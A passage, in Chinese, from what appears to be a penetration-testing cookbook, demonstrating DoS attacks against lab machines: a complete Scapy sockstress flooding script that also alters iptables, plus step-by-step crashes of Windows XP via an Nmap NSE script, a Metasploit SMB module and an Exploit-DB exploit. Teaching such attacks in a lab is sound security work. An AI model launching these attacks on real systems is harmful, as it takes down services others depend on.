要使用 Scapy 对目标执行 sock stress DoS 攻击，您需要有一台运行 TCP 网络服务的远程系统。在提供的示例中，使用了 Metasploitable2 实例来执行此任务。有关如何设置 Metasploitable2 的更多信息，请参考第一章的 *安装 Metasploitable2* 章节， *入门*。此外，本节还需要编写脚本并保存到文件系统中，您可以使用 Vim 或 GNU nano 等文本编辑器来进行编辑。有关编写脚本的更多信息，请参考第一章的 *使用文本编辑器（Vim 和 GNU nano）* 章节， *入门*。

# 如何操作…

要执行 sock stress DoS 攻击，请按照以下步骤进行：

1.  以下脚本使用 Scapy 编写，用于对目标系统执行 sock stress DoS 攻击。以下脚本可用于测试易受攻击的服务：

```
        #!/usr/bin/python

        from scapy.all import *
        from time import sleep
        import thread
        import logging
        import os
        import signal
        import sys
        logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

        if len(sys.argv) != 4:
        print "Usage - ./sock_stress.py [Target-IP]
         [Port Number] [Threads]"
        print "Example - ./sock_stress.py 10.0.0.5 21 20"
        print "Example will perform a 20x multi-threaded
         sock-stress DoS attack "
        print "against the FTP (port 21) service on 10.0.0.5"
        print "n***NOTE***"

        print "Make sure you target a port that responds
         when a connection is made"
        sys.exit()

        target = str(sys.argv[1])
        dstport = int(sys.argv[2])
        threads = int(sys.argv[3])

        ## This is where the magic happens
        def sockstress(target,dstport):
        while 0 == 0:
        try:
        x = random.randint(0,65535)
        response = sr1(IP(dst=target)
        /TCP(sport=x,dport=dstport,flags='S'),timeout=1,verbose=0)             send(IP(dst=target)
        /TCP(dport=dstport,sport=x,window=0,flags='A',
        ack=(response[TCP].seq + 1))/'x00x00',verbose=0)
        except:
        pass

        ## Graceful shutdown allows IP Table Repair
        def graceful_shutdown(signal, frame):
        print 'nYou pressed Ctrl+C!'
        print 'Fixing IP Tables'
        os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d '
         + target + ' -j DROP')
        sys.exit()

        ## Creates IPTables Rule to Prevent Outbound RST Packet
         to Allow Scapy TCP Connections
        os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d '
         + target + ' -j DROP')
        signal.signal(signal.SIGINT, graceful_shutdown)

        ## Spin up multiple threads to launch the attack
        print "nThe onslaught has begun...use Ctrl+C to
         stop the attack"
        for x in range(0,threads):
        thread.start_new_thread(sockstress, (target,dstport))

        ## Make it go FOREVER (...or at least until Ctrl+C)
        while 0 == 0:
        sleep(1)

```

1.  请注意，该脚本有两个主要功能：sockstress 攻击功能和一个独立的优雅关闭功能。需要一个单独的关闭功能，因为为了让脚本正常工作，脚本必须修改本地的 IPtables 规则。为了使用 Scapy 完成与远程主机的 TCP 连接，这一修改是必要的。这个问题在第四章的 *使用 Scapy 进行连接扫描* 中有更详细的说明， *端口扫描*。

1.  在执行脚本之前，我们可以使用 `netstat` 和 `free` 工具来获取已建立连接和内存使用的基准值：


1.  通过使用 `netstat`，然后将输出通过管道传递给 `grep` 函数并提取出已建立的连接，我们可以看到只有两个连接存在。我们还可以使用 `free` 工具查看当前的内存使用情况。`-m` 选项将以兆字节为单位返回数值。

1.  在确定了已建立连接和可用内存的基准值后，我们可以对该目标服务器发起攻击：


1.  当在没有任何参数的情况下执行脚本时，脚本将返回预期的语法和使用方法。该脚本在执行时接受三个参数。这些参数包括目标 IP 地址、将接收 sock stress DoS 的端口号以及用于执行 sock stress DoS 的线程数或并发进程数。

1.  每个线程开始时生成一个介于 0 和 65,535 之间的整数值。这个范围代表可以分配给源端口的所有可能值。TCP 头中定义源端口和目标端口地址的部分都是 16 位长。每个比特位可以保存`1`或`0`的值。因此，存在 2¹⁶或 65,536 个可能的 TCP 端口地址。单一的源端口只能保持一个连接，因此，通过为每个连接生成唯一的源端口地址，我们可以大大提高攻击的性能。

1.  一旦攻击开始，我们可以通过检查已在目标服务器上建立的活动连接来验证它是否有效：


1.  执行脚本后几秒钟，我们可以看到已建立的连接数量急剧增加。这里显示的输出已被截断，实际的连接列表比这长得多。通过持续使用`free`工具，我们可以看到系统的可用内存逐渐耗尽。当内存空闲值降到几乎为零时，空闲的缓冲区/缓存空间将开始下降：


1.  在本地系统的所有资源被耗尽后，系统将最终崩溃。完成此过程所需的时间将根据本地资源的数量而有所不同。在这里提供的演示案例中，攻击发生在一台具有 512 MB 内存的 Metasploitable 虚拟机上，攻击大约花费了 2 分钟来耗尽所有本地资源并使服务器崩溃。

1.  在服务器崩溃后，或者在任何时候你希望停止 DoS 攻击时，可以按*Ctrl* + *C*：


1.  该脚本旨在捕获由于按下*Ctrl* + *C*键而传输的终止信号，并通过删除在终止脚本执行序列之前生成的规则来修复本地 iptables。

# 工作原理…

在 sock stress DoS 攻击中，三次握手中的最终 ACK 数据包包含一个窗口值为`0`。易受攻击的服务由于连接客户端发出的空窗口指示，不会响应任何数据。相反，服务器会将待传输的数据保存在内存中。通过使用这些连接对服务器进行洪泛攻击，会消耗服务器的资源，包括内存、交换空间和处理能力。

# 使用 Nmap NSE 执行 DoS 攻击

**Nmap 脚本引擎**（**NSE**）拥有众多脚本，可以用来执行 DoS 攻击。本示例将演示如何定位 DoS NSE 脚本，识别脚本的使用方法，并执行它们。

# 准备工作

要使用 Nmap NSE 进行 DoS 攻击，您需要有一个运行易受攻击服务的系统，该服务由 Nmap NSE DoS 脚本中的一个脚本处理。在提供的示例中，使用了 Windows XP 实例。有关如何设置 Windows 系统的更多信息，请参见第一章中的*安装 Windows Server*配方，*入门*部分。

# 如何操作…

以下是演示使用 Nmap NSE 进行 DoS 攻击的步骤：

1.  在使用 Nmap NSE 脚本进行 DoS 测试之前，我们需要先确认可用的 DoS 脚本。在 Nmap NSE 脚本目录下，有一个可供搜索的`script.db`文件，可以用来识别任何给定类别中的脚本：


1.  通过在`script.db`文件中搜索 DoS 并将输出结果通过`cut`函数过滤，我们可以提取出可以使用的脚本。通过阅读其中一个脚本的开头，我们通常可以找到很多有用的信息：


1.  要从头到尾阅读脚本，我们应该在文件上使用`cat`命令，然后将输出传递给`more`工具。脚本的前部分描述了它所利用的漏洞以及系统易受攻击的条件。它还解释了该漏洞会导致**蓝屏死机**（**BSOD**）DoS。继续向下滚动，我们可以找到更多有用的信息：


1.  在脚本的进一步部分，我们可以找到有关脚本使用说明及可提供的参数的信息。它还提供了有关其利用的漏洞的额外细节。要执行该脚本，我们需要在 Nmap 中使用`--script`选项：


1.  在提供的示例中，Nmap 被指示只扫描 TCP 端口`445`，这是与漏洞相关的端口。`--script`选项与指定要使用的脚本参数一起使用。传递一个单一的脚本参数表示可以接受不安全扫描。

1.  这个参数被描述为一个安全开关，用于授权 DoS 攻击。在 Nmap 中执行脚本后，输出结果表明系统易受该攻击。回顾 Windows XP 机器，我们可以看到 DoS 攻击成功，导致了蓝屏死机（BSOD）：


# 它是如何工作的…

本练习中演示的 Nmap NSE 脚本是一个缓冲区溢出攻击的示例。一般来说，缓冲区溢出能够导致服务拒绝，因为它们可能导致任意数据被加载到不正确的内存段。这会干扰执行流程，导致服务或操作系统崩溃。

# 使用 Metasploit 进行 DoS 攻击

Metasploit 框架有许多辅助模块脚本可以用来执行 DoS 攻击。本配方将演示如何定位 DoS 模块，识别模块的使用方法并执行它们。

# 准备工作

要使用 Metasploit 执行 DoS 攻击，你需要有一个运行着易受攻击服务的系统，该服务由 Metasploit DoS 辅助模块中的某个模块处理。在提供的示例中，使用了一个 Windows XP 实例作为目标。有关设置 Windows 系统的更多信息，请参见第一章中的*安装 Windows Server*配方，*入门指南*。

# 操作步骤…

以下步骤演示了如何使用 Metasploit 执行 DoS 攻击：

1.  在使用 Metasploit 辅助模块进行 DoS 测试之前，我们需要识别可用的 DoS 模块。通过浏览 Metasploit 目录树，可以识别相关的模块：


1.  通过浏览到`/modules/auxiliary/dos`目录，我们可以看到各种 DoS 模块的类别。在提供的示例中，我们浏览到了包含 Windows HTTP 拒绝服务攻击的目录：


1.  该漏洞允许远程未认证的攻击者迫使 IIS 服务器变得无响应，直到管理员手动重启 IIS 服务。要求 IIS 托管活动服务器页面，并且一个 ASP 脚本需要读取一个 POST 表单值。

1.  要从上到下读取脚本，我们应使用`cat`命令打开文件，并将输出通过管道传递给`more`工具。脚本的顶部描述了它所利用的漏洞以及系统易受攻击所需的条件。我们还可以在 Metasploit 框架控制台中识别潜在的 DoS 漏洞利用。要访问此功能，在终端中输入`msfconsole`：


1.  一旦打开，可以使用`search`命令配合搜索词来识别可能的漏洞利用：


1.  在提供的示例中，搜索词`dos`被用来查询数据库。返回了一系列辅助 DoS 模块，并且为每个模块都包含了相对路径。这个相对路径可以用来缩小搜索结果的范围：


1.  在查询`/dos/windows/smb`的相对路径后，返回的唯一结果是该目录中的 DoS 模块。目录组织得很好，可以用来有效地搜索与特定平台或服务相关的漏洞。确定了要使用的漏洞后，我们可以用`use`命令以及模块的相对路径来选择它：


1.  选择模块后，可以使用 `show options` 命令来识别和/或修改扫描配置。该命令将显示四个列标题：`Name`、`Current Setting`、`Required` 和 `Description`：

    +   `Name` 列标识每个可配置变量的名称。

    +   `Current Setting` 列列出任何给定变量的现有配置。

    +   `Required` 列标识是否需要为任何给定变量提供值。

    +   `Description` 列描述每个变量的功能。任何给定变量的值可以使用 `set` 命令进行更改，并通过提供新的值作为参数：


1.  在提供的示例中，`RHOST` 的值被更改为我们希望扫描的远程系统的 IP 地址。更新必要的变量后，可以再次使用 `show options` 命令来验证配置。一旦所需的配置得到验证，就可以使用 `run` 命令启动模块：


1.  执行 Metasploit DoS `auxiliary` 模块后，将返回一系列消息，指示已经执行了一系列恶意的 SMB 事务，并返回最终消息，指示模块执行完成。通过查看已经崩溃并显示蓝屏死机（BSOD）的 Windows XP 系统，可以验证攻击是否成功：


# 它是如何工作的…

本练习中演示的 Metasploit DoS `auxiliary` 模块是一个缓冲区溢出攻击的示例。一般来说，缓冲区溢出能够导致服务拒绝，因为它们可能会导致任意数据被加载到不预期的内存区域。这会干扰执行流程并导致服务或操作系统崩溃。

# 使用漏洞数据库进行 DoS 攻击

**漏洞数据库**是一个公开发布的漏洞集合，涵盖所有类型的平台和服务。漏洞数据库中包含大量漏洞，可用于执行 DoS 攻击。本特定方案将演示如何在漏洞数据库中定位 DoS 漏洞，识别漏洞的使用方法，进行必要的修改并执行它们。

# 准备工作

要使用漏洞数据库执行 DoS 攻击，您需要有一个运行有 Metasploit DoS 辅助模块所涉及的漏洞服务的系统。在提供的示例中，使用了 Windows XP 实例来完成此任务。有关设置 Windows 系统的更多信息，请参阅 第一章 中的 *安装 Windows Server* 配方，*入门指南*。

# 如何操作…

要使用漏洞数据库执行 DoS 攻击，请按照以下步骤进行：

1.  在使用漏洞数据库进行 DoS 测试之前，我们需要确认哪些 DoS 漏洞可用。完整的漏洞数据库可以在线找到，网址为[`www.exploit-db.com`](http://www.exploit-db.com)。另外，也可以在 Kali Linux 文件系统中找到本地副本。`exploitdb`目录中有一个`files.csv`文件，里面包含了所有内容的目录。可以使用该文件通过`grep`查找关键词，帮助定位可用的漏洞：


1.  在提供的示例中，`grep`函数被用来在`files.csv`文件中搜索任何可以通过单词`SMB`识别的漏洞数据库内容。还可以通过将输出传送到另一个`grep`函数来进一步缩小搜索范围，查找额外的术语：


1.  在提供的示例中，依次使用了两个独立的`grep`函数来搜索与 SMB 服务相关的任何 DoS 漏洞：


1.  我们可以继续将搜索结果缩小到尽可能具体。在提供的示例中，我们查找了与 SMB 服务相关的任何 Python DoS 脚本，但排除了针对 Windows 7 平台的脚本。`grep`中的`-v`选项可用于从结果中排除某些内容。通常，最好将所需的漏洞复制到另一个位置，以免修改漏洞数据库目录中的内容：


1.  在提供的示例中，为脚本创建了一个新的目录。然后，脚本从可以通过漏洞数据库目录位置推断出的绝对路径以及在`files.csv`文件中定义的相对路径中复制过来。一旦重新定位，脚本可以使用`cat`命令从头到尾读取，然后将脚本内容通过管道传送到`more`工具：


1.  与 NSE 脚本和 Metasploit 辅助模块不同，漏洞数据库中的脚本没有标准化格式。因此，使用这些漏洞有时会比较棘手。尽管如此，简要检查脚本的内容，查看是否有注释或使用说明，通常是很有帮助的。在提供的示例中，我们可以看到脚本的使用方式列在脚本内容中，如果没有提供适当数量的参数，也会输出到用户：

1.  评估后，脚本可以按如下方式执行：


1.  然而，在尝试执行脚本后，我们可以看到出现了一些问题。由于缺乏标准化，并且某些脚本仅为概念验证，通常需要对这些脚本进行调整：


1.  当脚本出错后，我们需要返回到文本编辑器，尝试找出错误的来源。第一个错误表明脚本开头列出的 Python 解释器的位置有问题。必须更改为指向 Kali Linux 文件系统中的解释器：


1.  解决每个问题后重新尝试运行脚本通常是一个好主意，因为有时解决一个问题会消除多个执行错误。在这种情况下，修改了 Python 解释器的位置后，我们成功地运行了脚本：


1.  当脚本运行时，会返回几个消息以识别脚本执行的进度。最终的消息表明恶意负载已被传送，服务器应该已经崩溃。可以通过查看已崩溃并显示蓝屏死机（BSOD）的 Windows 服务器来验证脚本的成功：



# 它是如何工作的……

本练习中演示的漏洞利用数据库 DoS 脚本是一个缓冲区溢出攻击的示例。一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能会导致任意数据被加载到不正确的内存段中。这会干扰执行流程，并导致服务或操作系统崩溃。
